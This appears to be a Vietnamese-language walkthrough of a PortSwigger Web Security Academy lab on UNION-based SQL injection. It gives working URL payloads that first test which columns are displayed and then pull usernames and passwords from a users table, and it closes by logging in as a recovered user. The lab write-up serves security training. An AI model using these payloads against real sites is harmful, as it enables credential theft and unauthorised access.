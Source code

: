 ## SQL injection UNION attack, retrieving data from other tables

Ở đây chúng ta đã biết có 2 column như trong như phần description của lab có bảo là sử dụng table là **users** và có 2 trường là **username** và **password**, chúng ta sẽ select bừa các trường giá trị nào đó test thử xem web sẽ load như nào.

> Ví dụ: https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?+category=Corporate+gifts%27+UNION+SELECT+%27abc%27,%27def%27--

(Chúng ta sẽ thấy 2 trường mà chúng ta select có xuất hiện thêm ở trên list category, chứng tỏ lỗi hiển thị sẽ nằm ở đây)

![](/imgs/SQL-Injection/6.png?raw=true)

Ok web load ổn, chúng ta sẽ tiến hành select username và password từ bảng **users**

https://acd51f7e1f13167e80c95424009300ec.web-security-academy.net/filter?category=Corporate+gifts%27+UNION+SELECT+username,password+FROM+users--

![](/imgs/SQL-Injection/7.png?raw=true)

Chúng ta sẽ thu được 3 user là wiener, admin và carlos.

Vào phần My Account và Login vào sẽ solve lab.

![](/imgs/SQL-Injection/8.png?raw=true)

